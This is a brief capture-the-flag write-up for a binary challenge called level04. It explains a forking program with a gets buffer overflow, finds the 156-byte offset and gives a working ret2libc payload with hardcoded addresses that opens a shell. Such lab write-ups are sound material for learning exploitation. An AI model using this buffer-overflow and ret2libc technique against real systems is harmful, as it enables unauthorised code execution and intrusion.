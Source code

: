 # level04

## using gdb

follow the child process in gdb:

```
set follow-fork-mode child
```

## the code

The code forks in father and son.
The father track the son process using ptrace. If something get wrong it sends a signal to the son, who
will hang out (instead of terminating or segfaulting).
In the son, a buffer of size 128 seams eager to overflow with the data provided by a gets method.
But...
When we try to overflow, the code hang up the process instead of segfault. Which is not a problem.

## offset

I searched for the offset by dichotomy, and found:

```sh
level04@OverRide:~$ (python -c 'print("A" * 156)') | ./level04
Give me some shellcode, k
Give me some shellcode, k
```

offset is 156

## ret2libc

We reuse the addresses found in level01
(python -c 'print("A" \* 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level04

